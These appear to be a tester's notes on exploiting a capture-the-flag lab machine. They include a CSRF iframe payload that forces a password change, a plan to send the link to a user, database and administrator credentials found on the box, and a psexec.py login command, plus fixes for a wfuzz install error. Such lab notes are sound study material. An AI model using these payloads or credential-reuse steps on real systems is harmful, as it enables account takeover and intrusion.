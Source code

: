 ```bash
sm
## exploit csrf
# html page, test csrf, change password.
<html>
    <iframe src="http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit"> </iframe>
</html>

# contact.php, send the link to tyler.
http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit

# login via tyler/Password; login failed. not clue.

## tyler shell

PS C:\inetpub\wwwroot> type tmp
type tmp
aqsaj901crhlin5t5sapfvt18k

define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');


ls "Program Files (x86)“

psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@$tip


### wfuzz error
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

https://stackoverflow.com/questions/55929011/pycurl-is-not-compiled-against-openssl-when-i-trie-to-use-wfuzz-how-to-solve-th

sudo apt --purge remove python3-pycurl
sudo apt install libcurl4-openssl-dev libssl-dev
pyenv global 3.10.6
pip install pycurl wfuzz

```



# Enumeration
